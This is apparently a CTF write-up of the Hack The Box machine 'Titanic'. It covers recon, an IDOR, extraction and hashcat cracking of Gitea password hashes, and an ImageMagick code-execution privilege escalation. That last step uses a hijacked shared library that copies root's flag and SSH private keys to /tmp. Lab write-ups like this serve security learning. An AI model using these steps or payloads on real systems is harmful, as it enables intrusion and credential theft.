 ```yaml
---
title: 【HTB Machine】Titanic
date: 2025-07-14
tags:
  - ctf
url: "/posts/HTB/Titanic/"
---
```


# Recon

```sh
nmap -sS -A -p- --min-rate 10000 -oN nmap.txt Remote_IP
```

![nmap](/images/htb/titanic/nmap.png)

```sh
echo 'Remote_IP titanic.htb' | sudo tee -a /etc/hosts
```

# Web on titanic.htb port 80

![web](/images/htb/titanic/web_on_port_80_1.png)

![web](/images/htb/titanic/web_on_port_80_2.png)

Burp 攔截封包

![post_catch](/images/htb/titanic/post_catch.png)

![catch2](/images/htb/titanic/catch2.png)

IDOR vulnerability

![IDOR](/images/htb/titanic/IDOR.png)

發現有個 `dev` subdomain

```sh
echo 'Remote_IP dev.titanic.htb' | sudo tee -a /etc/hosts
```

# Web on dev.titanic.htb

![gitea](/images/htb/titanic/gitea.png)

可以得到 source code

- gitea 設定檔

![app_ini](/images/htb/titanic/app_ini.png)

- SQLite 資料庫

![sqlite](/images/htb/titanic/sqlite.png)

需要先轉換一下格式

```sh
sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo "$data" | cut -d '|' -f3); echo "${name}:sha256:${salt}:${digest}"; done | tee hashes.txt
```

hashcat 爆破

```sh
hashcat hashes.txt /usr/share/wordlists/rockyou.txt --user
```

得到 developer 密碼，登入 ssh

```sh
ssh developer@Remote_IP
cat ~/user.txt
```

# Privilege Escalation

```sh
$ ls /opt
app containerd scripts

$ ls /opt/scripts
identify_images.sh

$ cat /opt/scripts/identify_images.sh
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log

$ magick --version
Version: ImageMagick 7.1.1-35 ...
```

經搜尋後發現有個任意程式碼執行漏洞

![magick](/images/htb/titanic/magick.png)

偷 root flag/ssh private key

```sh
$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
> #include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void __attribute__((constructor)) init() {
    system("cat /root/root.txt > /tmp/root.txt");
    system("cat /root/.ssh/* > /tmp/id_rsa");
    exit(0);
}
> EOF
$ cd /opt/app/static/assets/images
$ cp entertainment.jpg root.jpg
$ rm root.jpg
$ cp entertainment.jpg root.jpg
$ cat /tmp/root.txt
{ROOT_FLAG_HERE}
```
